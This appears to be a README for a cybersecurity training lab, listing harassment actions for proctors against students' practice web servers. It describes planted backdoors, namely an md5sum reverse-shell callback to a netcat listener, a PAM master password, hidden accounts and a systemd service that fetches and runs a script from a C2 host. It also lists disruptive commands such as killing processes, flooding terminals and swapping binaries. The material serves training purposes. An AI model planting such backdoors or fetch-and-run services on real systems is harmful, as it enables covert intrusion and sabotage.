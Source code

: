 # Hacker Activity
Things that lab proctors can do to the "web servers" to keep the lab interesting.

To get access to the web servers refer to the backdoors document.

## md5sum backdoor
run `nc -nlvp 4444` and when users run the `md5sum` command they'll connect to you.

## PAM backdoor
ssh into on any box using the password *I_love_hacks*

## SSH key
ssh into root on any box without a password using the ssh key

## very_suspicious_user
ssh into very_suspicious_user using the password *IAMAHACKER*

## ftp user
ssh into the ftp user on any box using the password *cybersec*

## malicious systemd service
You can put a script named run.sh on a webserver (port 8080) on the c2 host and the malicious systemd service will periodically try to run it.

- Run walls
  - `wall "Hello there"`
- Echo text to terminal
  - `echo "Hello" > /dev/pts/0"`
- Kill random processes
  - `ps -A` to find a victim, `kill -9 <PID>` to kill
  - DO NOT kill PID 1, this will restart the server
- Mess up their terminal
  - `cat /dev/random > dev/pts/0`
- Turn services off and on
  - `systemctl stop vsftpd`
  - Don't turn off ssh
- Mess with binaries
  - For example, replace `bash` with a symlink to `pwsh` or something.
  - Also replace nano and vi with emacs
- Make new hacker accounts
  - `adduser not_a_malicious_account`
